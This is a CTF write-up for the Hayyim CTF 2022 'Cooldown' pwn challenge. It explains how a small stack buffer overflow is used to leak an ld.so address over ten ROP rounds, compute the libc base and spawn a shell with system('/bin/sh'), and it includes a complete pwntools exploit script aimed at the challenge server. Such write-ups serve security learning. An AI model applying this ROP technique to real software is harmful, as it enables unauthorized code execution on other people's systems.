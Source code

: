 #### **Cooldown,**


"the return"

as its name indicates (or not?) Cooldown was the successor of warmup challenge from Hayyim CTF 2022.

Cooldown only difference with warmup, is that this time we have only a buffer overflow of 0x60 bytes

as you can see in the reverse:

![IDA Reverse](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/cooldown/pics/reverse.png)

the smaller size of the buffer overflow, leaves us only 5 ROP gadgets possible after the pop rbx.

Which is not enough to do the exploitation in the same way that for warmup challenge.

So we will change of strategy.

we will do our leak exfiltration in 10 rounds.. slowly by slowly advancing on stack, until we read a ld.so address left there by the "Spirits of Pwn"...

at each round, we will send a payload that looks like this:

```payload = p64(0)*6+p64(0x601018)+p64(exe.sym['write'])+p64(0x40053e)```

it basically call write function in plt, the filedescriptor will be 0 after the read call (stdin so)..

but it will work remotely, as in general the filedescriptor remotely is a socket, and writing to stdin will work remotely..(old trick)

And instead of returning at the beginning of the vuln function, we will return after the push rbx instruction,

like this at each round, we will advance on stack..

We do this until we read a ld.so address on stack, that we have seen on gdb...

Once we got our leak, we calculate libc base, that is mapper at a constant offset before ld.so.

then we send a small ROP that calls system('/bin/sh')

and we will get our precious flag...

here is the exploit code:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

exe = ELF('./Cooldown')
libc = ELF('./libc.so.6')

if args.REMOTE:
  host, port = "141.164.48.191", "10005"

if (args.REMOTE or args.DOCKER):
  p = remote(host,port)
else:
  p = process(exe.path)

# dumps ten times the stack, each time 8 bytes further on stack.. until we reach ld.so address on stack
count = 10
buff = ''

for i in range(count):
  payload = p64(0)*6+p64(0x601018)+p64(exe.sym['write'])+p64(0x40053e)
  p.sendafter('> ', payload)
  buff  = p.recv(0x60)
  print(hexdump(buff))

# get our ld.so leak & calculate libc base with it
ldso = u64(buff[0x48:0x50])
print('ldso leak = '+hex(ldso))
libc.address = ldso - 0x3f1000
print('libc base = '+hex(libc.address))

# do a simple system('/bin/sh')
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
bin_sh = next(libc.search('/bin/sh'))
payload = p64(0)*6+p64(0x601018)+p64(pop_rdi)+p64(bin_sh)+p64(libc.symbols['system'])
p.sendafter('> ', payload)

p.sendline('id;cat flag*')
p.interactive()
```

and off course, see it in action.. :)

![we got a shell](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/cooldown/pics/gotshell.gif)

and that's all !!

*nobodyisnobody still pwning things*   (until the world ends..)
